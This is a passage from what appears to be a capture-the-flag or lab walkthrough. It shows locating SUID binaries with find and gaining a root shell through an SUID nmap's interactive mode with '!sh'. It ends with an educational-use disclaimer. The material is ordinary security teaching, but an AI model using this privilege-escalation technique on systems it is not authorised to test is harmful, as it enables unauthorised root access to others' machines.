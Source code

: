 I used the following command to find SUID binaries:
```
find / -perm /4000 -type f 2>/tmp/2
```

The output showed that `nmap` was one of the binaries with the SUID bit set:
```
/usr/local/bin/nmap
```

`Nmap` in interactive mode can be exploited to gain a root shell. Here’s how I did it:
```
robot@linux:~$ nmap --interactive nmap 
--interactive Starting 
nmap V. 3.81 ( http://www.insecure.org/nmap/ ) Welcome to Interactive Mode -- press h <enter> for help 
nmap> !sh 
!sh 
# whoami 
root
```

By running `!sh` in interactive mode, I dropped into a shell with root privileges. From here, I had complete control over the target system.

### Conclusion

This walkthrough has taken you through the basic steps of identifying a target, gathering information, exploiting vulnerabilities, and escalating privileges. Each tool used — `Nmap`, `Feroxbuster`, `Hydra`, and `Metasploit` — plays a crucial role in the penetration testing process.
 
Remember, this tutorial is for educational purposes only. Unauthorized access to systems without permission is illegal and unethical. Always conduct penetration testing within legal boundaries and with explicit permission.

If you’re new to this, take your time to understand each step, experiment in a controlled environment, and continue learning. Happy hacking!
